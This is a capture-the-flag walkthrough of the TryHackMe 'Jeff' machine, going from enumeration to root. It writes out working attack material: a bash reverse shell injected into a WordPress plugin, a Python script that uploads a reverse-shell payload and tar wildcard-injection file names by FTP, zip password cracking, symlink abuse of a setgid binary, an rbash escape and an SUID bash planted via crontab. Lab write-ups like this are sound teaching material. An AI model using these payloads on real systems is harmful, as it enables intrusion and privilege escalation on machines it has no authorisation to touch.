jeff
THM: Jeff
Enumeration
Rustscan
rustscan -a 10.10.161.232

Nmap
nmap -p22,80 -A 10.10.161.232

Website Enumeration
When we open the website using IP, we get a blank page.

Upon viewing its source, we found the info to add jeff.thm to our hosts file.

We add it.
sudo echo "10.10.161.232 jeff.thm" >> /etc/hosts
Next, we opened the website http://jeff.thm

Directory Enumeration
gobuster dir -u http://jeff.thm -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 64

/uploads contains a form which doesn’t do anything
/admin gives us an empty login.php file
/source_codes gives us also an empty file
/backups directory contains a file which has actual data in it.

To find out if any files exists, we need to use gobuster & a wordlist.
To find it we have to look for extensions which are often used for backups, like zip, tar, gzip etc
gobuster dir -u http://jeff.thm/backups -x zip,tar,gzip -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 64

We got a file named “backup.zip”
To Download it we can use the URL: http://jeff.thm/backups/backup.zip
I downloaded it & tried to open. It seems it is password protected.
I tried to crack it.
We can use john Or fcrackzip to crack the password.
I will use fcrackzip
fcrackzip -v -D -p /usr/share/wordlists/rockyou.txt backup.zip

Zip File Enumeration
I unzipped the file with the found password & checked its contents.

we found the wordpress password in the wpadmin.bak file

Seeing this backup directory, we guess that maybe jeff has already setup his wordpress CMS. I decided to enumerate subdomains using gobuster.
Subdomain Enumeration
gobuster vhost -u http://jeff.thm -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 64

We found a subdomain wordpress.jeff.thm
I removed the old entry & added this to /etc/hosts
sudo echo “10.10.161.232 jeff.thm wordpress.jeff.thm” >> /etc/hosts
Wordpress Site Enumeration
URL: http://wordpress.jeff.thm

Next, we Login into wordpress by going to the link: http://wordpress.jeff.thm/wp-login.php

We can login using Username as jeff & password as the one we found in the backup file.
Foothold

Most of the time we can manipulate theme templates like the 404.php-page to get a reverse shell with wordpress, but this isn’t possible in this case. (It did not work)
So we’ll use a plugin which isn’t activated yet and supports php.
In our case this will be Hello Dolly.

Go to "Plugin Editor" select the Hello Dolly at right top & then append the reverse shell at the end.
exec("/bin/bash -c 'bash -i > /dev/tcp/10.11.72.31/7777 0>&1'");

Next, we click on Update File
Start a Netcat Listner.
nc -lvnp 7777
Next, we activate the plugins.

We check the listner.

Foothold was successful.
Lateral Movement & Privilege Escalation
We checked that we are inside a container.
.dockerenv file present in / directory
Next, I checked the /var/www/html directory & found an intresting file ftp_backup.php

The file has FTP credentials & an indication that FTP is only accessible to internal Network.
Here, we can do Port Forwarding, but I will do this with a python script.
Python Script
#############################
from ftplib import FTP
import io
with FTP(host='172.20.0.1') as ftp:
print(str(ftp.getwelcome()))
try:
ftp.login(user='backupmgr', passwd='<password>')
print("[+] Login successful!")
ftp.set_pasv(False)
print("[+] Mode set to \"active\"")
print("[*] Working directory: " + str(ftp.pwd()))
print("[*] Listing directory")
ftp.dir()
print("[*] Trying to change into the \"files\" directory.")
ftp.cwd('files')
print("[+] Successfully changed directory!")
# Want to Delete files in this directory?
#ftp.delete('')
#print("[+] Deleted the files.")
# Now we want to create the payloads and upload everything!
print("[*] Trying to create the files!")
shell = io.BytesIO(b'python3 -c \'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("[your IP]",[PORT]));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);\'')
emptyFile = io.BytesIO(b'')
ftp.storlines('STOR shell.sh', shell)
ftp.storlines('STOR --checkpoint=1', emptyFile)
ftp.storlines('STOR --checkpoint-action=exec=sh shell.sh', emptyFile)
print("[+] Success!")
print("[*] These files are now in the directory \"" + str(ftp.pwd()) + "\"")
ftp.dir()
# Want to check if the payload is correct?
#print("Payload:\n")
#print(str(ftp.retrlines("RETR shell.sh")))
print("[+] Closing FTP connection")
ftp.quit()
except Exception as e:
print('FTP error: ', e)
#############################
Explanation
▸ We are creating a connection to the server and login with the username and password we found in the ftp_backup.php file
▸ It’s important to set ftp.set_pasv(False), because this results in using the ftp active mode. If we don’t do this the default value is taken, which is passive mode and this doesn’t work on this machine.
▸ ftp.dir() shows that there is only one directory: /files in which we change in the next step
▸ io.BytesIO() is used to create our files, one is an empty dummy and one contains our reverse shell
▸ We are using a python reverse shell. It’s important to use python3 and not python3.7! I did this at first and haven’t gotten a shell back.
▸ The most important part is --checkpoint=1 and --checkpoint-action=exec=sh shell.sh
Why does this work? Whats happening outside the container? A crontab is running outside the container! The user backupmgr is running tar every few minutes and uses a wildcard * to include everything in the ftp://files directory.
In this case the usage of wildcard is dangerous and makes this exploit possible, because our files --checkpoint=1 and --checkpoint-action=exec=sh shell.sh are interpreted as arguments of the tar command!
This means that after 1 proccessed file the checkpoint is reached. The checkpoints action is sh shell.sh which then invokes our python3 payload and we can catch the reverse shell with nc.
Make Necessary Changes to the Python Code(Password, IP, Port), Then copy the code into the system & Start Netcat Listener.
Finally, run the Python Script.

Next, we check that a user named jeff exists. Lets find all files belonging to him.
find / -user jeff 2>/dev/null

I see that, if we need to be jeff or pwman to read the file

We see that the program systool has GUID set. (ie. It would be run as group pwman)
We need to find a way to exploit this.

The tool has above options.
When run with ltrace & select option 2, we see a file named message.txt is read

Luckily, the file has permissions.

Let’s rename, delete or move the existing message.txt and replace it with a symbolic link to /var/backups/jeff.bak
ln -s /var/backups/jeff.bak message.txt
Then run the program & select 2
It will read this file.

We got Jeff's Password.
If we normally do su into jeff we get a rbash (Restricted Bash)
Use the following to Break out of (rbash)Restricted Bash:
su -l jeff -c "/bin/bash -i"
This will still PATH not properly set.
Example: We need to use /bin/cat For cat
Note: We can run a python shell & have unrestricted access.
Or
Use SSH to get full bash access as follows:
ssh jeff@10.10.1.126 -t bash '--noprofile'
Get the user flag in jeff's home directory.

As we have crontab in sudo, we can easily get into root.
We will edit the crontab by
sudo /usr/bin/crontab -e
& add the following line.
* * * * * chmod u+s /bin/bash
After a minute, we will have a bash executible with SUID set

Thus, we have root access. We get the root flag in /root directory.
Thanks!!